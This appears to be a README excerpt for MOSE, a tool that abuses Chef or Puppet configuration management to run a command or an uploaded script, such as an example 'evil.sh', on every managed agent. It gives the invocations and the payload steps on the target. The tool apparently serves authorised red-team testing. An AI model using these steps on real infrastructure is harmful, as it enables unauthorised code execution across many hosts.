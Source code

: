 ## Instructions to run a command
To run a command on all target agents, you can do the following:
1. Run MOSE with the following options:
``
./mose -c <command> -t <target CM>
``
For example:
``
./mose -c "echo HELLO >> /tmp/friendlyFile.txt" -t chef
``

2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions

3. Run the payload:
``
./<cm target>-<cm os>
``
For example:
``
./chef-linux
``

If you want to clean up after you're done, run the payload again with the `-c` option.

## Instructions to upload and run a file
This functionality is supported on both puppet and chef. It will allow you to specify a script or a binary that you want to run on the target agents.

1. Run MOSE with the following options: 
``
./mose -fu <name of file> -t <target CM>
``
For example:
``
./mose -fu evil.sh -t puppet
``
2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions

3. Extract the payload:
``
tar -vxf files.tar
``

4. Run the payload:
``
./<cm target>-<cm os>
``
For example:
``
./puppet-linux
``

If you want to clean up after you're done, run the payload again with the `-c` option.
